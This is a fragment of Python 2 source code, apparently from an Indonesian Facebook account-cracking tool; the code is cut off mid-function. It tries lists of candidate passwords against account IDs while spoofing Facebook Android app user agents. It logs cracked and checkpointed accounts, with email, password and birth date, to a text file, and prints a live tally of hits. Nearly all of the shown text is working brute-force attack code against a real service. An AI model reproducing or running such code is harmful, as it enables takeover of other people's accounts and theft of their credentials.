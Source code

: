 		eml_dev = eml_dev.replace(">>>", "")
		with open("hasil_cp.txt", "a") as hasil:
			di = open("hasil_cp.txt", "r").read()
			if eml_dev in di:
				has = di.replace(eml_dev, eml_dev).replace(san_dev, san_dev)
				with open("hasil_cp.txt", "w") as tulis:
					tulis.write(has)
			else:
				hasil.write("["+waktu+"]==>"+ eml_dev + "==>|==>" + san_dev + "==>|==>" + ttl + "\n")
		hasil_cp.append(eml_dev)
	

	except:
		pass

user_agent = "[FBAN/FB4A;FBAV/222.0.0.48.113;FBBV/155323366;FBDM/{density=2.0,width=720,height=1360};FBLC/sr_RS;FBRV/156625696;FBCR/mt:s;FBMF/HUAWEI;FBBD/HUAWEI;FBPN/com.facebook.katana;FBDV/LDN-L21;FBSV/8.0.0;FBOP/19;FBCA/armeabi-v7a:armeabi;]"
# user_agent = "Mozilla/5.0 (iPhone; CPU iPhone OS 12_4_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) relesys_web_client/1.3.8.0 (RelesysApp/1.3.37; net.relesysapp.imerco)"
def crack_dev_api(iqbal_, dev___):
	global count_, ttl_, user_agent

	tampil = a+">\033[92;1mCrack\033[96;1m->\033[97;1m{}\033[92;1m/\033[97;1m{}\033[96;1m|\033[92;1mLive\033[96;1m/\033[93;1mCek:\033[92;1m{}\033[96;1m/\033[93;1m{}".format(len(user_id),count_,len(hasil_ok),len(hasil_cp))
	print "\r"+tampil,
	sys.stdout.flush()
	count_ +=1
	eml_dev = iqbal_

	if 2 == len(eml_dev):
		eml_dev = eml_dev[0]
		ttl = iqbal_[1]

	for san_ in dev___:
		try:	
			san_dev = san_.lower()
			user_agent = "[FBAN/FB4A;FBAV/222.0.0.48.113;FBBV/155323366;FBDM/{density=2.0,width=720,height=1360};FBLC/sr_RS;FBRV/156625696;FBCR/mt:s;FBMF/HUAWEI;FBBD/HUAWEI;FBPN/com.facebook.katana;FBDV/LDN-L21;FBSV/8.0.0;FBOP/19;FBCA/armeabi-v7a:armeabi;]"
			# user_agent = "[FBAN/FB4A;FBAV/246.0.0.49.121;FBBV/181448449;FBDM/{density=1.5,width=540,height=960};FBLC/en_US;FBRV/183119516;FBCR/TM;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/vivo 1606;FBSV/6.0.1;FBOP/1;FBCA/armeabi-v7a:armeabi;]"
			# user_agent = "[FBAN/FB4A;FBAV/223.0.0.47.120;FBBV/156649505;FBDM/{density=2.625,width=1080,height=2034};FBLC/sv_SE;FBRV/0;FBCR/Telia;FBMF/HMD Global;FBBD/Nokia;FBPN/com.facebook.katana;FBDV/Nokia 7 plus;FBSV/9;FBOP/1;FBCA/armeabi-v7a:armeabi;]"
			# user_agent = "Mozilla/5.0 (Linux; Android 10; motorola one macro Build/QMDS30.47-33-2; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/93.0.4577.82 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/335.0.0.28.118;]"
			if len(ua_hp) != 0: